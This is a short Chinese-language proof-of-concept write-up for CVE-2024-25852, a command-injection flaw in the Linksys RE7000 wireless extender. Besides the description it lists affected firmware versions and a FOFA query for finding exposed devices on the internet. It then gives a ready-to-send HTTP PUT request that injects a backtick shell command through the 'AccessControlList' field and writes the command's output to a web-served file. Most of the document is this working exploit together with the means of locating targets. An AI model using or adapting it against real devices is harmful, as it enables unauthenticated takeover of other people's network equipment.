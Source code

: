 # CVE-2024-25852

> **Created By：** A-little-dragon
>
> **漏洞描述：** Linksys RE7000无线扩展器 RCE漏洞



## 0x01 简介

Linksys是贝尔金旗下一个销售家用与小型业务用网络产品的部门，主要经营宽带与无线路由器。RE7000是Linksys推出的一款新型双频AC1900无线扩展器，具有无缝漫游功能。

## 0x02 漏洞描述

Linksys RE7000无线扩展器在访问控制功能点的“AccessControlList”参数中存在命令执行漏洞。未经身份验证的远程攻击者可以利用该漏洞获取设备管理员权限。

## 0x03 影响范围

```bash
RE7000 v2.0.9
RE7000 v2.0.11
RE7000 v2.0.15
```

## 0x04 FOFA语法

```bash
body="/login.shtml?ran="
```

## 0x05 漏洞复现

```bash
PUT /goform/AccessControl HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Thu, 17 Sep 2020 11:24:58 GMT
If-None-Match: "14600429"
Content-Length: 81

{"AccessPolicy":"0","AccessControlList":"`ps>/etc_ro/lighttpd/RE7000_www/1.txt`"}
```

![Untitled](image/Untitled.png)
